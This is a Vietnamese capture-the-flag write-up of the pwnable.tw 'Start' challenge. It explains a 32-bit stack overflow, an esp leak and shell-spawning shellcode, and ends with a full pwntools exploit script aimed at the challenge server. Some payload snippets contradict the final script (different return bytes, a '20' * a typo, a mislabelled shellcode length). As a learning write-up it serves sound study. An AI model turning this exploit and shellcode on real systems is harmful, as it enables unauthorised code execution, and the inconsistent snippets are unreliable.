 # [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:

![File type]({{ site.url }}/assets/start_file_type.PNG)

Liệt kê strings:

![Enumrate String]({{ site.url }}/assets/start_strings.PNG)

Chạy thử:

![Run]({{ site.url }}/assets/start_run.PNG)


Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'``` và ```start.s```


Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:


```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy

![IDA loaded]({{ site.url }}/assets/start_ida.PNG)

Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```
